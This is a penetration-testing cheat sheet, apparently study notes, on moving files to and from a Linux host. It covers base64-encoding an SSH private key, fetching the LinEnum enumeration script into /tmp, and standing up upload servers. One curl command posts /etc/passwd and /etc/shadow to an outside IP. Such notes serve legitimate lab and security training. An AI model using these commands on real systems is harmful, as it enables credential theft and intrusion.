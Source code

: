 1. **Check MD5 Hash**
```bash
md5sum id_rsa
```
2. **Encode SSH Key to Base64**
```bash
cat id_rsa |base64 -w 0;echo
```
3. **Decode the File**
```bash
echo -n 'justimaginethisissomerandomhashbecauseyoudontcareandidontcare=` | base64 -d > id_rsa
```

### Web Downloads with Wget and cURL
1. **Download a File Using wget**
```bash
wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh
```
2. **Download a File Using cURL**
```bash
curl -o /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
```

### Web Upload
Mechanism is similar to Windows web upload using `uploadserver` module:
```bash
sudo python3 -m pip install --user uploadserver
```
#### Secure HTTPS Web Server
1. **Start Web Server**
```bash
sudo python3 -m pip install --user uploadserver
```
2. **Create a Self-Signed Certificate**
```bash
openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'
```
3. **Start Web Server**
```bash
mkdir https && cd https
```
```bash
sudo python3 -m uploadserver 443 --server-certificate /root/server.pem
```
- **Upload Multiple Files**
```bash
curl -X POST https://13.13.13.13/upload -F 'files=@/etc/passwd' -F 'files=@/etc/shadow' --insecure
```
#### Alternative File Transfer Method
- **Creating a Web Server with Python3**
```bash
python3 -m http.server
```
- **Creating a Web Server with Python2.7**
```bash
python2.7 -m SimpleHTTPServer
```
- **Creating a Web Server with PHP**
```bash
php -S 0.0.0.0:8000
```
- **Creating a Web Server with Ruby**
```bash
ruby -run -ehttpd . -p8000
```
